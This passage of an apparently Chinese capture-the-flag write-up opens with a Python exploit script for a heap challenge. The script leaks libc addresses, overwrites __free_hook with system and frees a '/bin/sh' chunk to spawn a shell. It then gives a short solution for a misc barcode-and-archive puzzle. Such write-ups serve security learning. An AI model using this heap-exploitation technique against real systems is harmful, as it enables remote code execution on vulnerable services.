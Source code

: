 ```python
chg_schname(102,200,pay)

intro(103)
cn.recvuntil('My name is ')
malloc = u64(cn.recv()[:6]+'\x00'*2)
success('malloc: '+hex(malloc))
freehook = malloc-libc.symbols['malloc']+libc.symbols['__free_hook']
system = malloc-libc.symbols['malloc']+libc.symbols['system']
success('freehook: '+hex(freehook))
success('system: '+hex(system))

pay = 'A'*7+'\x00'+p64(0)+p64(0)+p64(0x65)+p32(103)+p32(0)+p64(freehook)+p32(8)
chg_schname(102,200,pay)

pay = p64(system)
chg_name(103,200,pay)


add('/bin/sh',10,'/bin/sh',10)
remove(104)
#z()
cn.interactive()

'''
00000000 chunk_struc     struc ; (sizeof=0x38, mappedto_6)
	00000000 idx             dd ?                    ; base 10
	00000004 field_4         dd ?
	00000008 name            dq ?                    ; offset
	00000010 name_len        dd ?
	00000014 field_14        dd ?
	00000018 intro_func      dq ?
	00000020 sch_name        dq ?                    ; offset
	00000028 sch_name_len    dd ?
	0000002C is_tutor        dd ?
	00000030 randnum         dd ?
	00000034 field_34        dd ?
00000038 chunk_struc     ends
'''
```


## misc 登机牌

png后面有一个rar先抠出来。

然后反色后扫描下面的pdf417条码。

得到压缩包的密码。

解压得到pdf，在末尾写着flag。


## misc clemency
